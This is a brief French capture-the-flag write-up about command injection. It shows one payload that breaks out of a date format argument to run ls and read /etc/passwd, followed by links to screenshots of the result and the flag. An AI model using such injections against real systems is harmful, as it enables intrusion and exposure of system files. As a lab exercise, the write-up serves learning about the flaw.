 ## Command injection

![time](./time.png)


On injecte

```bash
#date '+ ';ls;' +'2 
';printf $(cat /etc/passwd);' 
```

![cat](./cat.png)

![flag](./flag.png)
